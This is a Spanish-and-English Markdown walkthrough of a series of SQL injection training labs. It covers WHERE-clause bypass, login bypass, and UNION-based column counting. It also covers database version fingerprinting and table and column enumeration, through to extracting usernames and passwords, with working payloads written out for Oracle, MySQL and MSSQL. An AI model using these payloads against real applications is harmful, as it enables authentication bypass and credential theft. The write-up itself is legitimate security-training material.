# know sql inyection laboratories

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### solucion

Hacemos las pruebas iniciales

```bash
‘

‘--

' OR 1=1 --   


```
Inicialmente hay una serie de pruebas que hacen que puedas ver si va a ser o no vulnerable.

Hay algunas que dan invalid results y otras no dan fallo de inyección pero no hace nada nuevo. Por este motivo es susceptible de sql inyection así que probamos más cosas.

en este caso la solución es que rellenar los espacios por + , pero es que también podemos usar el espacio como si fuese %20 y también funciona. 

```bash
## Opcion1
%27%20OR%201=1--

## Opcion2 
'+OR+1=1--
```



## Lab: SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.

Se soluciona poniendo administrator'-- y en el password ''



## Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

Este tipo de laboratorios son muy fáciles y ni siquiera entro en burpsuite , no tiene mucho sentido para añadir simplemente lo que te acaban de decir en el temario de la academia. 

Lo que hay que hacer es saber que opciones hay para obtener el número de columnas. Haber en principio hay 2 :

    1º es usando el ' ORDER BY 1-- . Aquí se va aumentando el número para ver el número de columnas

    2º ' UNION SELECT NULL-- e ir añadiendo NULL

En el enunciado del laboratorio aparece que usemos el NULL... porque co la primera opción vale pero no resuelve el laboratorio.

En este caso los espacios nos lo da como malos , así que usamos el + para los espacios.

```bash
filter?category=Accessories%27+UNION+SELECT+NULL,NULL,NULL--
```


## Lab: SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Una vez que sabemos por el laboratorio anterior que el número de columnas es 3 , podemos permutar para ver los erres.

```bash
' UNION SELECT 'QhDKgq',NULL,NULL--
' UNION SELECT NULL,'QhDKgq',NULL--   --> no da error
' UNION SELECT NULL,NULL,'QhDKgq'--
```

```bash
'+UNION+SELECT+'QhDKgq',NULL,NULL--
'+UNION+SELECT+NULL,'QhDKgq',NULL--   --> no da error
'+UNION+SELECT+NULL,NULL,'QhDKgq'--
```
Seguramente hará falta poner el + en los espacios. 


Make the database retrieve the string: 'QhDKgq'

```bash
/filter?category=Accessories'+UNION+SELECT+NULL,'QhDKgq',NULL--   --> y solved
```




## Lab: SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

```sql
Oracle	      SELECT banner FROM v$version
              SELECT version FROM v$instance

Microsoft	    SELECT @@version

PostgreSQL	  SELECT version()

MySQL	        SELECT @@version
```

No se si es que está bugueado o es así, nos aparece




Al tratarse de un oracle

SELECT banner FROM v$version

Haríamos un 

'+UNION+SELECT+BANNER+FROM+v$version--



Nos sale un error, es posible que sea porque tiene más de un elemento en la tabla, así que le vamos añadiendo null

Pues nada, a la primera ha salido

```bash

/filter?category=Gifts%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Pues exactamente lo mismo que antes pero con microsoft

```sql
Oracle	      SELECT banner FROM v$version
              SELECT version FROM v$instance

Microsoft	    SELECT @@version

PostgreSQL	   SELECT version()

MySQL	        SELECT @@version
```

```bash
'+UNION+SELECT+@@version--
```
Vemos que nos da error de server. en los laboratorios mejor ir a burpsuite porque no se , no me funcionaba directamente en la url

Lo primero que tenemos que hacer es probar lo básico que es ```'--```




No nos funciona.. por lo que o no es explotable o hay algún fallo, por lo que voy a ver
```
Microsoft	--comment
            /*comment*/

MySQL	#comment
        -- comment [Note the space after the double dash]
        /*comment*/
```




Vale hay que poner '#  probé antes el '-- con espacio al final como pone pero no funcionó

Ahora tenemos nuestra cadena, inicialmente deberíamos de ver el número de columnas... y luego probar los caracteres... pero a mi eso me parece pérdida de tiempo, a no ser que no salga


El problema es que no nos aparece nada, solo gifts por lo que no está continuando

' UNION SELECT @@version#

Por lo que le añadimos los + y vemos que tal



le añadimos un ,NULL y vemos



Ya nos da 200 , a ver el laboratorio y ya está resuelto.


## Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

- UNION attack
- login fuction
- the database contains a table that holds usernames and passwords
- get the name of this table and the columns it contains
- then get retrieve the contents of the table to obtain the username and password of all users.

### name table Database contents sql injection

You can list the tables that exist in the database, and the columns that those tables contain.
# Database contents sql injection  Lista de tablas

You can list the tables that exist in the database, and the columns that those tables contain.


## Oracle	   

```sql 
    SELECT * FROM all_tables
    
    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
       
    
 ```

 ## Microsoft , PostgreSQL, MYSQL

```sql

SELECT * FROM information_schema.tables

SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```


1. category=Gifts'--  return 200
2. Obtener número de columnas 
   ```bash
   ?category=Gifts'+UNION+SELECT+NULL,NULL--
   ```
3. Obetenemos la tabla, para ello sabemos que hay dos columnas, por lo que probaremos en diferentes sitios la table_name y en la siguiente NULL
   
   1. '+UNION+SELECT+table_name.null+FROM+all_tables-- --> return 500
   2. '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- return 200 
    

4. Obtener la lista de usuarios



users_squnln

```bash 
'+UNION+SELECT+column_name,+null+FROM+information_schema.columns+where+table_name='users_squnln'--
```


Las columas son username_lfvohu y password_zyocjv

5. Ahora hacemos la consulta normalmente, recordar el control+u para codificar o mandar ya la consulta con los +
   
   ' UNION SELECT username_lfvohu, password_zyocjv FROM users_squnln--




Ahora solo vamos a login y ponemos nuestras credenciales




## Lab: SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.


Exactamente igual que antes pero esta vez es oracle

Oracle
```sql
  SELECT * FROM all_tables
    
  SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```

1. Añadiendo el order by vemos el número de columnas.



2. No suelo buscar la posicion cuando hay 2 columnas nada más...Tenemos que saber que oracle de por si no acepta no poner un from por lo que el típico
```bash
' union select null null--  no va a funcionar.
```

Usamos la tabla dual

```
' UNION SELECT NULL, NULL FROM DUAL--  debería de funciona
```


A mi no me suele gustar buscar los caracteres en este tipo de ejercicios porque se pierde tiempo, solo hay que ir añadiendo , null 


3. vemos la versión

Oracle	    SELECT banner FROM v$version
            SELECT version FROM v$instance

' UNION SELECT banner, NULL FROM v$version

CORE	11.2.0.2.0	Production



4. Buscamos el nombre de la tabla

```sql 
    SELECT * FROM all_tables
    
    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
       
    
 ```

 Buscando en google 

 

```bash
#recordar el control + u o cambiar directamente los espacios por +
 ' UNION SELECT table_name, NULL from all_tables--
```
Importante, estuve mirando en buspsuite los resultados y en esta base de datos hay muchísimas tablas. Hice el recorrido en otro tipo de tabla que se llamaba user algo... y no era, era porque la otra no me salió y tuve que ir la segunda a poner la consulta en la url del explorador directamente para ve rla web completa. Una vez hecho si terminó de salir.

USERS_ACJIGK




5. Miramos las columnas dentro de la tabla econtrada anteriormente

```bash
' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_ACJIGK'


PASSWORD_IRIOUY

USERNAME_AZKWYI
```

6. Consulta normal de sql con los datos obenidos hasta ahora.

```bash
' UNION SELECT PASSWORD_IRIOUY , USERNAME_AZKWYI FROM USERS_ACJIGK--
```


7 Entramos como administrator y terminado.




## Lab: SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

No coment sobre el laboratorio después de hacer los anteriores...

```bash
'+UNION+SELECT+username,+password+FROM+users--
```


## Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Hay que tener en cuenta lo de siempre

1º numero de columnas
2º donde están los caracteres
3º ver la version
4º obtener las tablas de la base de datos
5º obtener las columnas de la tabla
6º hacer la sentencia sql normal que quieras

## String concatenation

```bash

Oracle	        'foo'||'bar' 
                ' UNION SELECT username || '~' || password FROM users-- 

Microsoft	    'foo'+'bar'

PostgreSQL	    'foo'||'bar'

MySQL	        'foo' 'bar' [Note the space between the two strings]
                CONCAT('foo','bar')
```

sería algo así



' UNION SELECT username || '~' || password FROM users-- 

No funciona, obviamente nos hemos pasado los pasos anteriores, voy a probar que sea porque tiene más de una columna y al convertirse user y password en 1... realmente solo está pidiendo una.

He probado inicilamente añadiendo el null después como siempre, pero parece que el orden es primero el null y luego la cadena. Lo he cambiado y ha funcionado.

```bash
' UNION SELECT NULL, username || '~' || password FROM users-- 
```



administrator~ymhir2k2apjk138ealjm

administrator
ymhir2k2apjk138ealjm




